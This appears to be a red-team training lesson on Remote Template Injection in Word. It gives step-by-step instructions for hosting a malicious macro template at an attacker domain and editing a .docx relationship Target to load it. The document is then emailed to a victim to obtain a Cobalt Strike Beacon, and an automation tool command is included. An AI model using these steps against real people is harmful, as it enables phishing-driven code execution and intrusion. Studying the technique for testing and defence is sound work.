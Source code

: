 Microsoft Word has the option of creating new documents from a template.  Office has some templates pre-installed, you can make custom templates, and even download new ones.  Remote Template Injection is a technique where an attacker sends a benign document to a victim, which downloads and loads a malicious template.  This template may hold a macro, leading to code execution.

Open Word on the Attacker Desktop, create a new blank document and insert your desired macro.  Save this to `C:\Payloads` as a Word 97-2003 Template (*.dot) file.  This is now our "malicious remote template".  Use Cobalt Strike to host this file at _http://nickelviper.com/template.dot_.

Next, create a new document from the blank template located in `C:\Users\Attacker\Documents\Custom Office Templates`.  Add any content you want, then save it to `C:\Payloads` as a new .docx.  Browse to the directory in explorer, right-click and select _7-Zip > Open archive_.  Navigate to _word > _rels, r_ight-click on `settings.xml.rels` and select _Edit_.

This is just a small XML file.  Scroll right until you see the _Target_ entry.
```
Target="file:///C:\Users\Attacker\Documents\Custom%20Office%20Templates\Blank%20Template.dotx"
```
  

It's currently pointing to the template on our local disk from which the document was created.  Simply modify this so it points to the template URL instead.
```
Target="http://nickelviper.com/template.dot"
```

Save those changes and email the document to Bob.  Once the file is opened, you'll see a warning about macros again but allowing them to run will execute the macro in the hosted template, given us a Beacon.

[John Woodman](https://twitter.com/JohnWoodman15) created a [python tool](https://github.com/JohnWoodman/remoteinjector) that can automate this process so that we don't have to modify the XML manually.
```
ubuntu@DESKTOP-3BSK7NO ~> python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx
URL Injected and saved to /mnt/c/Payloads/document_new.docx
```